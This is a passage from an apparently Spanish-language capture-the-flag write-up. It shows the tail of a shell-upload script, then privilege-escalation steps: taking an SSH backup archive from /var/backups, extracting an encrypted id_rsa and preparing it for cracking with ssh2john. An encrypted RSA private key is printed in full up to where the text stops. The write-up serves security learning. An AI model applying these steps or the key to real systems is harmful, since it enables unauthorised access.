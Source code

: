 ```bash

if [[ ! "$ip" || ! "$port" ]]; then
	helpPanel
else
	uploadYgainShell
fi
```
Siguiendo con la escalada de privilegios para convertirnos en el usuario server-management, primero hacemos un tratamiento de la tty como ya lo expliqué en [este](https://invertebr4do.github.io/tratamiento-de-tty/) post, esto básicamente para tener una tty full interactiva
Encontramos un directorio que puede ser de mucha utilidad: ```/var/backups``` en este vemos un ```ssh-backup.tar.gz```

Nos metemos en /tmp

```bash
$ cd /tmp
```
Copiamos el ```ssh-backup.tar.gz``` dentro del directorio ```/tmp```

```bash
$ cp ssh-backup.tar.gz /tmp/.
```
Lo descomprimimos con **tar**

```bash
$ tar -xf ssh-backup.tar.gz
```
Y vemos que tenemos una id_rsa

```bash
$ ls
id_rsa
ssh-backup.tar.gz
```
Si la intentamos usar, veremos que nos pedirá contraseña, así que vamos a copiarnola en unestra máquina de atacante e intentemos romperla con [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

```bash
~$> echo "-----BEGIN RSA PRIVATE KEY-----  
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
```